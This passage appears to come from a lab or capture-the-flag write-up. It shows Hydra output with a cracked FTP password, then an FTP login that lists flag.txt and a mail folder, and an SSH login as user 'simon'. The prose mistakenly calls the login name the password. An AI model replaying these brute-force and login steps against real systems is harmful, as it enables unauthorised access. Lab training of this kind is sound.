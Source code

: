 ```
[2121][ftp] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-04 06:16:18
```
{% endcode %}

And we retrieved the password 'simon' so now let's connect to the FTP server using this credential.

{% code fullWidth="true" %}
```
ftp 10.129.201.127 2121              
Connected to 10.129.201.127.
220 ProFTPD Server (InlaneFTP) [10.129.201.127]
Name (10.129.201.127:kali): simon
331 Password required for simon
Password: 
230 User simon logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||57421|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root           29 Apr 20  2022 flag.txt
drwxrwxr-x   3 simon    simon        4096 Apr 18  2022 Maildir
226 Transfer complete
ftp> cd Maildir
250 CWD command successful
ftp> dir
229 Entering Extended Passive Mode (|||64846|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 simon    simon         452 Apr 18  2022 dovecot.list.index.log
-rw-rw-r--   1 simon    simon           8 Apr 18  2022 dovecot-uidvalidity
-r--r--r--   1 simon    simon           0 Apr 18  2022 dovecot-uidvalidity.625dd61f
226 Transfer complete
ftp> bye
221 Goodbye.
```
{% endcode %}

we can read the flag or connecting over ssh

```
ssh simon@10.129.201.127
The authenticity of host '10.129.201.127 (10.129.201.127)' can't be established.
ED25519 key fingerprint is SHA256:HfXWue9Dnk+UvRXP6ytrRnXKIRSijm058/zFrj/1LvY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:16: [hashed name]
    ~/.ssh/known_hosts:18: [hashed name]
    ~/.ssh/known_hosts:19: [hashed name]
    ~/.ssh/known_hosts:20: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.201.127' (ED25519) to the list of known hosts.
simon@10.129.201.127's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 04 Apr 2024 10:19:26 AM UTC

  System load:  0.15               Processes:               222
  Usage of /:   16.7% of 13.72GB   Users logged in:         0
  Memory usage: 12%                IPv4 address for ens160: 10.129.201.127
  Swap usage:   0%
```